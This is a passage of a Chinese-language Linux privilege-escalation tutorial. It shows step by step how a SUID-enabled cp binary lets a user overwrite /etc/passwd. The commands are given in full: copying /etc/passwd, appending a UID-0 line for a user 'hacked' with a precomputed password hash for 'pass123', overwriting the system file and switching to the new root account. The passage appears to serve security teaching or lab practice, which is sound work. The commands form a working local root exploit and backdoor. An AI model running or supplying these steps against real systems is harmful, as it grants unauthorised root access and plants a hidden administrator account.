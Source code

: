 先将 `/etc/passwd` 的内容复制一份到用户主目录下 `~/passwd`:

```bash
cat /etc/passwd > ~/passwd
```

> 此处不使用 cp 进行复制，因为 cp 会将文件权限一起复制。

![图片描述](..\images\2021-01-23_23.jpg)

然后利用之前在「**Linux 提权之 passwd 文件提权**」这一章节中提到的方法，我们创建一行用户数据如下：

- 用户名：hacked
- 密码：pass123

```bash
hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```

然后将这行添加到 `~/passwd` 文件中：

```bash
echo 'hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> ~/passwd
```

![图片描述](..\images\2021-01-23_24.jpg)

最后，通过 `cp` 命令的 s 权限，用 `~/passwd` 覆盖 `/etc/passwd`：

```bash
cp ~/passwd /etc/passwd
```

覆盖完成后，通过 `su hacked` 命令切换即可切换到 hacked 用户（密码 pass123）：

![图片描述](..\images\2021-01-23_25.jpg)
